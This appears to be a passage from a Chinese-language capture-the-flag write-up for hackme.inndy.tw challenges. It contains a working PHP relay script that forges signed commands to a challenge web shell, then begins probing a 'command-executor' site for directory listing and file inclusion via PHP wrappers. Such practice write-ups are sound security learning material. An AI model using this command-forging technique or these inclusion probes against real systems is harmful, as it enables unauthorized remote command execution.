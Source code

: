 题目还给了我们robots.txt，ip.php（返回我们的ip也就是REMOTE_ADDR）所以我们照着逻辑写个脚本中转一下，方便执行命令，最后得到flag。

```php
<?php
$cmd = $_GET['cmd']?:"ls -a";
function get_ip() {
    $ip_addr = "https://webshell.hackme.inndy.tw/ip.php";
    $ch = curl_init($ip_addr);
    curl_setopt_array($ch, array(
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_SSL_VERIFYHOST => 0,
        CURLOPT_SSL_VERIFYPEER => 0
    ));
    return curl_exec($ch);
}
function run($cmd) {
    $shell_addr = "https://webshell.hackme.inndy.tw/";
    $host = "webshell.hackme.inndy.tw";
    $ip = get_ip();
    $cmd = hash('SHA512', $ip) ^ $cmd;
    $ua = "wow";
    $key = $ua . sha1($host);
    $sig = hash_hmac('SHA512', hash('SHA512', $ip) ^ $cmd, $key);
    $ch = curl_init($shell_addr."?cmd=".urlencode($cmd)."&sig=".$sig);
    curl_setopt_array($ch, array(
        CURLOPT_USERAGENT => $ua,
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_SSL_VERIFYHOST => 0,
        CURLOPT_SSL_VERIFYPEER => 0,
    ));
    return curl_exec($ch);
}
echo run($cmd);
?>
```

### command-executor

遇到这种看起来有一堆功能的网站，要有耐心慢慢测试。

![12](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/abc110aa1645a836706b7b957435f1f9.png)

List Files可以目录遍历，注意到几个文件名。

发现其他几个url是

```text
https://command-executor.hackme.inndy.tw/index.php?func=cmd
https://command-executor.hackme.inndy.tw/index.php?func=untar
https://command-executor.hackme.inndy.tw/index.php?func=man
```

所以猜测可能存在文件包含漏洞，试试php伪协议

![13](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/5b8e1257f23fb1085d40ed337ac7c1b1.png)
